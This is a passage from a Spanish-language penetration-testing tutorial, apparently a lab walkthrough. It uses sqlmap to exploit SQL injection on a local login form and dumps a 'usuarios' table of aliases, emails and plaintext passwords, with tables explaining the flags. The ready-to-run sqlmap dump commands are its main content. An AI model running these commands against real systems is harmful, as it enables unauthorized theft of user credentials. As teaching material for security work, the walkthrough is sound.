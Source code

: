 | Parámetros | Descripción |
|--------------------------|
| *-r*       | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |
| *-D*       | Selecciona una base de datos específica a enumerar. |
| *-T*       | Selecciona una tabla específica a enumerar. |
| *--dump*   | Extraer datos de una tabla específica. |

<br>

Muy bien, y como ya conocemos los datos que necesitamos, podemos dumpear solamente el alias, email y la contraseña:
```bash
sqlmap -r request.txt --batch -D 'php' -T 'usuarios' -C alias,email,contraseña --dump
Database: php
Table: usuarios
[4 entries]
+------------+--------------+---------------------+
| alias      | contraseña   | email               |
+------------+--------------+---------------------+
| adminPrinc | 123456       | admin@localhost.com |
| Jaime_P    | jaime        | jaime@email.com     |
| Pep100     | qwertyuiop   | pepe@email.com      |
| Richard    | qwertyu      | Ricardobc@gmail.com |
+------------+--------------+---------------------+
...
[*] ending @ 16:02:34 /2025-07-24/
```

| Parámetros | Descripción |
|--------------------------|
| *-r*       | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |
| *-D*       | Selecciona una base de datos específica a enumerar. |
| *-T*       | Selecciona una tabla específica a enumerar. |
| *-C*       | Selecciona los datos de una columna específica a enumerar. |
| *--dump*   | Extraer datos de una tabla específica. |


Por último, podemos automatizar todo esto y obtener los datos de la base de datos usada en un formulario, pero tenemos que usar la **URL** directamente:
```bash
sqlmap -u 'http://192.168.10.220/login.php' --batch --forms --dump
...
Database: php
Table: usuarios
[4 entries]
+----+------------+---------------------+---------+--------------+
| id | alias      | email               | nombre  | contraseña   |
+----+------------+---------------------+---------+--------------+
| 1  | adminPrinc | admin@localhost.com | admin   | 123456       |
| 2  | Pep100     | pepe@email.com      | pepe    | qwertyuiop   |
| 3  | Jaime_P    | jaime@email.com     | jaime   | jaime        |
| 4  | Richard    | Ricardobc@gmail.com | Ricardo | qwertyu      |
+----+------------+---------------------+---------+--------------+
```